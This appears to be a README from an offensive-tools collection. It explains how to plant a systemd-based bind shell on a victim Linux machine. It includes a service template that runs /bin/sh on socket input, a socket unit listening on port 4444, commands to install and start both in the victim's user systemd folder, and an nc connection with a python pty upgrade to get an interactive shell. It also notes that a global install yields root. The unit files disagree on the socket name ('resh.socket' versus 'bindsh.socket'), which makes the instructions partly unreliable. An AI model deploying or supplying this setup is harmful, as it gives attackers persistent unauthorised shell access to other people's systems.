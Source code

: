 # Bind Shell

## Description

This sequence of commands sets up a bind shell using a socket unit and service unit.

The service file (`bindsh@.service`) uses:

* The `StandardInput` directive to notify systemd the shell expects input from a socket connection
* The `ExecStart` directive to execute the shell when a connection is made
* The `Requires` directive to only execute this shell when started by our socket unit

The socket file (`bindsh.socket`) uses:

* The `ListenStream` directive to identify which network port to listen on
* The `FreeBind` directive to accept non-local IP connections
* The `Accept` directive to create new shells for each incoming connection
  * This is done via template services (service units with '@' in the name)

## Additional Notes

* If these units are installed in one of the global systemd folders, such as `/etc/systemd/system`, the
  shell will be started as the root user
* If `Accept` is not enabled and templates services are not used, the socket will not be able to
  properly pass input to the shell, or the shell service will not be able to start at all
* When these shell services get instantiated by systemd, they will include the local and remote IPs in their name.
  This follows the below format, where ${LHOST} is the host running the bind shell, and ${RHOST} is the host connecting:

  ```sh
  bindsh@3-${LHOST}:${LPORT}-${RHOST}:${RPORT}.service
  ```

* A "slice" is created to correlate all the processes associated with the socket:

  ```sh
  $ systemctl --user status bindsh.slice
  ● bindsh.slice
    Loaded: loaded
    Active: active since Sat 2020-02-15 20:52:47 UTC; 14min ago
    CGroup: /user.slice/user-1000.slice/user@1000.service/bindsh.slice
            └─bindsh@3-10.10.10.10:4444-10.10.10.11:54718.service
              ├─10740 /bin/sh
              ├─10791 python -c import pty;pty.spawn('/bin/bash')
              └─10792 /bin/bash
  ```

## Step by Step

1. Generate a service template file to process sh commands

```ini
$ cat bindsh@.service
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple bind shell - sh half
Requires=resh.socket

[Service]
Type=simple
StandardInput=socket
ExecStart=/bin/sh
```

2. Generate a socket file to listen on port 4444 of the victim

```ini
$ cat bindsh.socket
; https://www.freedesktop.org/software/systemd/man/systemd.socket.html
[Unit]
Description=A simple bind shell - socket half

[Socket]
ListenStream=4444
FreeBind=true
Accept=yes
```

3. Install into the systemd user folder on the victim

```sh
$ mkdir -p ~/.config/systemd/user/
$ ln -s `pwd`/bindsh@.service ~/.config/systemd/user/
$ ln -s `pwd`/bindsh.socket ~/.config/systemd/user/
```

5. Start the TCP listener

```sh
$ systemctl --user start bindsh.socket
```

6. Connect to the victm from your machine

```sh
$ nc 10.10.10.10 4444
python -c "import pty;pty.spawn('/bin/bash')"
user@victim:~$
```

